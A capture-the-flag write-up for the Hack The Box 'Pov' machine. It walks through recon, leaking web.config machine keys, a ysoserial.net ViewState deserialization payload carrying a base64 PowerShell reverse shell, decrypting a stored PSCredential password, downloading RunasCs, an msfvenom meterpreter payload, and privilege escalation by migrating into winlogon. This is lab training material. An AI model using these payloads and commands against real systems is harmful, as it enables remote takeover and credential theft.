







<h1 align="center"> Pov </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/585">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp---80)
3. [CVE-2023-40931](#4-cve-2023-40931)
4. [Privilege Escalation](#5-user-to-root)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.251
Nmap scan report for 10.10.11.251
Host is up (0.14s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  5 22:17:06 2024 -- 1 IP address (1 host up) scanned in 26.23 seconds
```

## 2. TCP - 80

There is an active service on port 80 and, before connecting, add *pov.htb* in `/etc/hosts`.

<p align="center">
  
</p>

There's nothing interesting so I'm looking for more virtual hosts.

```bash
└─$ gobuster vhost -u http://pov.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt --append-domain -r
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://pov.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.pov.htb Status: 200 [Size: 21359]
```

By visiting the page we find a portfolio.

<p align="center">
  
</p>

Then I intercept the request after clicking the download button.

<p align="center">
  
</p>

## 3. RCE

After a bit of research on how to exploit the parameters reported in the request, I found a [HackTricks article](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter?source=post_page-----7516c938c688--------------------------------) that talks about how to have RCE through the *__VIEWSTATE* parameter.

It also talks about the file called [web.config](https://learn.microsoft.com/en-us/aspnet/core/host-and-deploy/iis/web-config?view=aspnetcore-8.0) (file that is read by IIS and the ASP.NET Core Module to configure an app hosted with IIS), so I used the *file* parameter, present in the request, to read this file.

```xml
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

Ok now we have all the elements necessary for the attack, in fact, the article also reports the tool [YSoSerial.Net](https://github.com/pwntester/ysoserial.net) that can be used to create a payload to inject into the *__VIEWSTATE* parameter.

I need a Powershell command, in particular a reverse shell and searching on the internet I found a [script](https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58) that returns the payload encoded in base64.

```bash
└─$ python mkpsrevshell.py 10.10.14.109 1234
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADkAIgAsADEAMgAzADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

With all the information found, we can run YSoSerial.Net as follows:

```powershell
PS C:\> ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADkAIgAsADEAMgAzADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

By inserting the result into the parameter and forwarding the request, via Burp, we have the shell.

<p align="center">
  
</p>

Ok, we are *sfitz* but we can't have the access to the user flag yet. 

## 4. sfitz to alaading

Searching in the *sfitz* home directory and in particular in the documents, I found a file called *connection.xml* which contains some interesting information about the user *alaading*.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
```

Searching the internet for information about `System.Management.Automation.PSCredential` I found a [HackTricks article](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#secure-string-to-plaintext) where the process to follow in order to have the clear password is reported.

```powershell
PS C:\Users\Public\Downloads> $EncryptedString = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6"
PS C:\Users\Public\Downloads> $SecureString = ConvertTo-SecureString $EncryptedString
PS C:\Users\Public\Downloads> $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
PS C:\Users\Public\Downloads> echo $Credential.GetNetworkCredential().password
f8gQ8fynP44ek1m3
```

Since [runas.exe](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11))  is not present, we use [RunasCs.exe](https://github.com/antonioCoco/RunasCs) to run specific processes with different permissions.

First we load the binary using the following command:

`powershell Invoke-WebRequest -Uri 'http://IP:PORT/RunasCs.exe' -OutFile "RunasCs.exe"`

After that they execute it with the following formatting: `./RunasCs.exe <username> <password> <cmd>`

<p align="center">
  
</p>

In *C:\Users\alaading\Desktop* there is the user flag.

## 5. User to ROOT

To have a better interaction, I used [msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create an exe for the shell.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=5050 -f exe -o shell`

After loading the binary I ran the shell using *RunasCs.exe* once again as follows: 

`./RunasCs.exe alaading f8gQ8fynP44ek1m3 "C:\\Users\\Public\\Downloads\\shell"`

In parallel I used msfconsole.

<p align="center">
  
</p>

Analyzing the running processes, I noticed the presence of [winlogon.exe](https://en.wikipedia.org/wiki/Winlogon).

```bash
meterpreter > ps                                                                                                    
                                                                                                                    
Process List                                                                                                        
============                                                                                                        
                                                                                                                    
 PID   PPID  Name               Arch  Session  User          Path                                                   
 ---   ----  ----               ----  -------  ----          ----                                                   
 0     0     [System Process]                                                                                       
 4     0     System             x64   0                                                                             
 68    624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe                        
 88    4     Registry           x64   0                                                                             
 272   624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe                        
 300   4     smss.exe           x64   0                                                                             
 372   624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe                        
 380   372   csrss.exe          x64   0
 484   372   wininit.exe        x64   0
 492   476   csrss.exe          x64   1
 496   624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 548   476   winlogon.exe       x64   1                      C:\Windows\System32\winlogon.exe
 624   484   services.exe       x64   0
 644   484   lsass.exe          x64   0                      C:\Windows\System32\lsass.exe
 756   624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 776   624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 796   484   fontdrvhost.exe    x64   0                      C:\Windows\System32\fontdrvhost.exe
 804   548   fontdrvhost.exe    x64   1                      C:\Windows\System32\fontdrvhost.exe
 880   624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 932   624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 996   2336  cmd.exe            x64   0        POV\alaading  C:\Windows\System32\cmd.exe
 1004  548   dwm.exe            x64   1                      C:\Windows\System32\dwm.exe
 1040  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1068  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1084  3944  RunasCs.exe        x64   0        POV\alaading  C:\Users\Public\Downloads\RunasCs.exe
 1180  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1196  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1212  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1248  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1256  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1272  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1280  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1372  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1404  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1412  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1516  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1532  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1600  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1608  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1656  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1740  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1780  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1792  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1812  3944  conhost.exe        x64   0        POV\alaading  C:\Windows\System32\conhost.exe
 1856  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 1916  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2060  2264  vm3dservice.exe    x64   1                      C:\Windows\System32\vm3dservice.exe
 2072  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2080  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2088  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2112  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2140  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2152  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2212  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2224  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2236  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2248  624   VGAuthService.exe  x64   0                      C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe
 2264  624   vm3dservice.exe    x64   0                      C:\Windows\System32\vm3dservice.exe
 2276  624   vmtoolsd.exe       x64   0                      C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2300  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2308  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2336  1084  shell              x64   0        POV\alaading  C:\Users\Public\Downloads\shell
 2352  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2692  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2716  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 2724  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 3108  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 3176  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 3292  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 3456  624   dllhost.exe        x64   0                      C:\Windows\System32\dllhost.exe
 3492  548   LogonUI.exe        x64   1                      C:\Windows\System32\LogonUI.exe
 3724  624   msdtc.exe          x64   0                      C:\Windows\System32\msdtc.exe
 3748  776   WmiPrvSE.exe       x64   0                      C:\Windows\System32\wbem\WmiPrvSE.exe
 3944  1640  cmd.exe            x64   0        POV\alaading  C:\Windows\System32\cmd.exe
 4044  2692  w3wp.exe           x64   0                      C:\Windows\System32\inetsrv\w3wp.exe
 4144  996   conhost.exe        x64   0        POV\alaading  C:\Windows\System32\conhost.exe
 4712  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 4840  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 5048  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 5116  624   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
```

Seeing this, I tried to migrate the process using the PID that identifies *winlogon.exe* and I got the shell as Administrator.

<p align="center">
  
</p> 

In *C:\Users\Administrator\Desktop* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/585">
        
    </a>
</p>

